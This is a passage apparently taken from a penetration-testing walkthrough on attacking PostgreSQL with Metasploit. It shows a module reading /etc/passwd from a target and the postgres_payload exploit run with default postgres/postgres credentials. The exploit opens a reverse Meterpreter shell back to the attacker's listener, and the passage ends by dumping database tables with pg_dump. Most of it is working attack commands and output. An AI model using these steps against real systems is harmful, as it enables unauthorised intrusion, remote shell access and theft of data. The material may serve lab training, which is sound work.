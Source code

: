 [*] 10.0.0.27:5432 Postgres - /etc/passwd saved in /root/.msf5/loot/20160325044605_default_10.0.0.27_postgres.file_552946.txt
[+] 10.0.0.27:5432 Postgres - Command complete.
[*] 10.0.0.27:5432 Postgres - Disconnected
[*] Auxiliary module execution completed
msf auxiliary(postgres_readfile) >

Payload

To deliver a payload, use the payload module associated with Postgres:

msf > use exploit/linux/postgres/postgres_payload
msf exploit(postgres_payload) >

Set Options

Set some options:

msf exploit(postgres_payload) > set USERNAME postgres
USERNAME => postgres
msf exploit(postgres_payload) > set PASSWORD postgres
PASSWORD => postgres
msf exploit(postgres_payload) > set RHOST 192.168.1.101
RHOST => 192.168.1.101
msf exploit(postgres_payload) >

Houston, We Have A Shell

Running this exploit delivers you into a Meterpreter shell:

msf exploit(postgres_payload) > run

[*] Started reverse TCP handler on 192.168.1.1:4444
[*] 192.168.1.101:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Uploaded as /tmp/VfNryNXX.so, should be cleaned up automatically
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.101
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.101:36131) at 2016-04-02 21:34:12 -0700

meterpreter >


Dumping

To dump the contents of a postgres database, use the pg_dump command.

You can check all the flags with man pg_dump, but the basic ones you will need are:

    username postgres
    password (does not accept password typed as an argument on command line, apparently?)
    database (one of the three above, postgres, template0, or template1)
    table (you can use wildcards to match table names)
    a file to capture all the output

root@morpheus:~# pg_dump --host=10.0.0.27 --username=postgres --password --dbname=postgres --table='sometable' -f output_pgdump
